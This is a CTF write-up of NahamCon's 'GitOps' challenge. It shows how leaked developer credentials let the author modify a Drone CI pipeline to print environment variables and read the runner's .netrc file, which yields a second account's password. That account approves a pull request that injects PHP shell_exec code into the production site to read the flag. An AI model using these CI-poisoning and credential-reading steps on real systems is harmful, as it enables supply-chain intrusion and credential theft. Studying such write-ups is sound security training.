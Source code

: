 # GitOps (DevOps)
**After Challenge Solve**
## Challenge
```
Someone leaked their git credentials (developer:2!W4S5J$6e). How deep can you infiltrate?
This challenge uses vhosts.
Visit git.challenge.nahamcon.com:[YOUR_PORT]
Visit drone.challenge.nahamcon.com:[YOUR_PORT]
Visit web.challenge.nahamcon.com:[YOUR_PORT]

Press the Start button on the top-right to begin this challenge.
```
## Solution
As with the challenge [Poisoned](../Poisoned/README.md) the task is to infiltrate the CI Infratsructure to get malicious code into production.  
After a few tries, it became clear, that the main point is to approve the Pull Request to merge into the `main` Branch. The `README.md? states the following:
```
1. Clone the repo
2. Create a branch
3. Open a pull request
4. Ensure your code passes all the checks
5. Get someone else to approve your PR
6. Merge your changes to master
7. Our gitops system will pull your changes every minute and update the website automatically
```
![image](assets/mainREADME.PNG)
We can create the Pull Request with the leaked `developer`-user but we will be unable to approve it, until we have a second set of credentials (from the setup it can be assumed, that the second pair would be that of the drone ci)
So we need to get the crendentials.  

### Step1 - Approve PR

Logging in, into gitea, we can change the `.drone.yml` file to give us a few information.
To get the login data we could print out all environment-variables to check if there are some information hidden.

```yaml
---
kind: pipeline
type: exec
name: default
platform:
  os: linux
  arch: amd64
steps:
  - name: getEnv
    commands:
      - printenv
  - name: linting
    commands:
      - phplint --lint .
```

Unfortunately no credentials are present in the environment-variables allone

<details>
    <summary>output</summary>

```
+ printenv
DRONE_BRANCH=developer-patch-1
DRONE_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE_SYSTEM_HOST=drone.challenge.nahamcon.com:32482
GIT_COMMITTER_NAME=developer
DRONE_GIT_SSH_URL=git@localhost:JustHacking/web.git
CI_BUILD_TARGET=
GIT_AUTHOR_EMAIL=developer@noreply.localhost
CI=true
CI_BUILD_NUMBER=31
CI_BUILD_STARTED=0
DRONE_COMMIT_AUTHOR=developer
DRONE_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_REPO_NAMESPACE=JustHacking
DRONE_STAGE_OS=linux
DRONE_TARGET_BRANCH=developer-patch-1
CI_BUILD_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_GIT_HTTP_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
SHLVL=1
DRONE_COMMIT_BRANCH=developer-patch-1
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
DRONE_REPO_PRIVATE=true
DRONE_REPO_SCM=
DRONE_STAGE_TYPE=exec
DRONE_SYSTEM_PROTO=http
DRONE_STEP_NUMBER=2
GIT_AUTHOR_NAME=developer
DRONE_BUILD_STATUS=success
DRONE_REPO_VISIBILITY=private
CI_BUILD_EVENT=push
CI_PARENT_BUILD_NUMBER=0
DRONE_BUILD_ACTION=
DRONE_COMMIT_BEFORE=c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58
DRONE_STAGE_ARCH=amd64
CI_BUILD_CREATED=1651429287
CI_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
CI_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
CI_REPO_NAME=JustHacking/web
CI_COMMIT_REF=refs/heads/developer-patch-1
DRONE_SOURCE_BRANCH=developer-patch-1
DRONE_STAGE_NAME=default
DRONE_STAGE_STATUS=success
DRONE_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO_BRANCH=master
CI_BUILD_FINISHED=0
DRONE_DEPLOY_TO=
DRONE_SYSTEM_HOSTNAME=drone.challenge.nahamcon.com:32482
DRONE_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
CI_REPO=JustHacking/web
CI_COMMIT_AUTHOR_NAME=developer
DRONE_REPO_OWNER=JustHacking
DRONE_STAGE_KIND=pipeline
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CI_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE=true
DRONE_BUILD_NUMBER=31
DRONE_BUILD_STARTED=1651429288
DRONE_BUILD_LINK=http://drone.challenge.nahamcon.com:32482/JustHacking/web/31
DRONE_BUILD_PARENT=0
DRONE_HOME=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_WORKSPACE=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_COMMIT_AFTER=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_STAGE_DEPENDS_ON=
DRONE_STAGE_VARIANT=
USERPROFILE=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_AUTHOR=developer
CI_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_STAGE_NUMBER=1
DRONE_STAGE_STARTED=1651429287
CI_COMMIT_BRANCH=developer-patch-1
CI_REPO_REMOTE=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_COMMIT=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
GIT_TERMINAL_PROMPT=0
CI_REPO_PRIVATE=true
DRONE_BUILD_EVENT=push
DRONE_BUILD_CREATED=1651429287
DRONE_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
DRONE_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_REPO_NAME=web
CI_BUILD_STATUS=pending
DRONE_COMMIT_REF=refs/heads/developer-patch-1
DRONE_STAGE_MACHINE=gitops-92fbced652b9e214-599685cdf7-dwpxr
GIT_COMMITTER_EMAIL=developer@noreply.localhost
PWD=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_BUILD_FINISHED=1651429288
DRONE_COMMIT_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
HOMEPATH=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO=JustHacking/web
DRONE_STEP_NAME=getEnv
DRONE_COMMIT_AUTHOR_NAME=developer
DRONE_SYSTEM_VERSION=2.11.0
CI_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_STAGE_FINISHED=1651429288
```
</details>


After the challenge I found a [discourse thread](https://discourse.drone.io/t/authenticate-to-git-inside-docker-build/9516) that states `We know that Drone is using .netrc file to authenticate to repositories[...]`.  
We need to find the .netrc file.

Changing the pipeline file to revealed that a `.netrc` file is located in the directory that can be accesses by Env-Variable `$HOME`. 

Reading out the file revealed the login credentials on the gitea server for user droneci
```yaml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: getEnv
    commands:
      - printenv
      - find / -type f -name .netrc -print
      - cat $HOME/.netrc
  - name: linting
    commands:
      - phplint --lint .
```

```
+ printenv
[...]
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
[...]

+ find / -type f -name .netrc -print
/tmp/drone-5O8nHRsoCPeXIuBK/home/drone/.netrc

+ cat $HOME/.netrc
machine git.challenge.nahamcon.com login droneci password t4K0@s!qSF
```

We can check that, the credentials work in a seperate browser session
![image](assets/LoginWithDroneci.PNG)

So Step 1 is done, the login worked, and we can check that we are able to approve a Pull Request.
![image](assets/approvePR.PNG)

After approving the PR we can see, that there is a new commit (I merged as squash merge) in the master branch.
![image](assets/commitedToMaster.PNG)

### Step 2 - infiltrate production

We can use the same trick as with the `.netrc`-File to locate the file `flag.txt`.  
So we change `index.php` to print out all files names `flag.txt` in the file system
![image](assets/findFlag.PNG)

After a minute we see that the flag is indeed located at `/flag.txt`
![image](assets/FlagLocation.PNG)

Now that we know where to read the information from, we can extract it, and print it on the website by defineing the php code into the `index.php`-File
```php
    <?php
        $datestr="2022-05-08 12:00:00";
        $date=strtotime($datestr);
        $diff=$date-time();
        $days=floor($diff/(60*60*24));
        $hours=round(($diff-$days*60*60*24)/(60*60));
        $minutes=round((($diff-$days*60*60*24)-$hours*60*60)/(60));

        echo "<h1>THANK YOU FOR THE FISH</h1>";
        echo shell_exec("find / -type f -name flag.txt -print");
        echo "<h1>" . shell_exec("cat /flag.txt") . "</h1>";
    ?>
```

One PR and approval later, we can see the flag printed and ready to copy.
![image](assets/Flag.PNG)

Flag: `flag{9e3dd10bb90e1ad16676470cabb20858}` 



